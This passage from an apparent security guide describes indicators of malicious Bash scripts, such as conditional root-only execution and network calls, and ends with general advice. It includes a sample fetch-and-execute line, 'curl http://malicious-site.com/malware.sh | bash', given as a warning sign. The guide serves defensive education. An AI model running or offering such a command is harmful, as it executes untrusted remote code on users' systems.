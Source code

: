 Example:
```bash
if [[ $(whoami) == "root" && $((RANDOM%2)) -eq 0 ]]; then
    dangerous_command
fi
```
Here, the complex condition might lead to the execution of 'dangerous_command' under certain circumstances, potentially causing harm.

### 4. **Network Communication**

Bash scripts can initiate network connections, which could be a sign of malicious intent. Scripts communicating with unfamiliar or suspicious IP addresses warrant scrutiny.

Example:
```bash
curl http://malicious-site.com/malware.sh | bash
```
This line fetches and pipes a script from a potentially harmful website to the Bash shell for execution, which could result in malicious actions.

## Final Words

In a digital landscape fraught with cybersecurity threats, understanding the indicators of malicious code is imperative. Python, PowerShell, and Bash, despite their legitimate use cases, can also serve as conduits for malicious activities. By familiarizing yourself with these indicators—such as obfuscated code, suspicious modules, dynamic execution, and unusual network activities—you can bolster your cybersecurity posture.

Vigilance, continuous education, and staying updated on emerging threats are your allies in safeguarding digital environments. Whether you're a security professional, developer, or system administrator, recognizing and addressing malicious code indicators is a proactive step toward fortifying systems and data against the ever-evolving landscape of cyber threats.